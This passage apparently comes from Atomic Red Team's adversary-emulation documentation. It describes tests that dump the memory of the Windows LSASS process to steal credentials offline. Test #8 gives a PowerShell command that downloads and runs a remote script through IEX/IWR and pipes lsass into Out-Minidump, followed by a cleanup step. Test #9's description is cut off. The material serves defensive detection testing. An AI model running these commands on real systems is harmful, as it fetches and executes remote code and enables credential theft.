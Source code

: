 


<br/>
<br/>

## Atomic Test #8 - Dump LSASS.exe Memory using Out-Minidump.ps1
The memory of lsass.exe is often dumped for offline credential theft attacks. This test leverages a pure
powershell implementation that leverages the MiniDumpWriteDump Win32 API call.
Upon successful execution, you should see the following file created $env:TEMP\lsass_*.dmp.

Author of Out-Minidump: Matthew Graeber (@mattifestation)

**Supported Platforms:** Windows


**auto_generated_guid:** 6502c8f0-b775-4dbd-9193-1298f56b6781






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
try{ IEX (IWR 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1003.001/src/Out-Minidump.ps1') -ErrorAction Stop}
catch{ $_; exit $_.Exception.Response.StatusCode.Value__}
get-process lsass | Out-Minidump
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\lsass_*.dmp -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #9 - Create Mini Dump of LSASS.exe using ProcDump
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with Sysinternals
ProcDump. This particular method uses -mm to produce a mini dump of lsass.exe

Upon successful execution, you should see the following file created c:\windows\temp\lsass_dump.dmp.
